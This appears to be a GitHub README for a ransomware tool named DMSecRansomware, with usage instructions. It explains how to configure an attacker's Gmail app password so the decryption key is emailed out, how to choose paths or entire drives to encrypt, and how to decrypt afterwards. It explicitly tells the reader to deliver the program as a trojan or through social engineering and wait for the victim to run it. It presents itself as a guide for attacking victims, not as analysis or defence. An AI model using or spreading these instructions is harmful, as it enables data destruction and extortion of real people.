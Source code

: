 # How to use DMSecRansomware

## Encrypting data
- Turn on 2FA in attacker's gmail account.
- Create app password
- Update `dmsec_encrypter.py` with email and app password to login to your gmail account. This is used to receive key to decrypt the files.

  ```python
  encrypter = DMSECEncrypter(PATHS, gmail='yourgmailid', passwd='yourapppassword')
  ```
- Specify path which is to be encrypted.
- If all the drives are to be decrypted do not pass PATHS to the DMSECEncrypter

  ```python
  encrypter = DMSECEncrypter(gmail='yourgmailid', passwd='yourapppassword')
  ```
- Create a trojan or use social engineering and send file to the victim.
- Wait for victim to execute the trojan.


## Decrypting Data
- Use `dmsec_decrypter.py` to decrypt the encrypted files.
- Edit paths to be decrypted in `decrypter.py` file. If all the drives are to be decrypted do not pass PATHS to DMSECDecrypter

  ```python
  encrypter = DMSECDecrypter(KEY)
  ```
- Use the key which was received on mail to decrypt the data

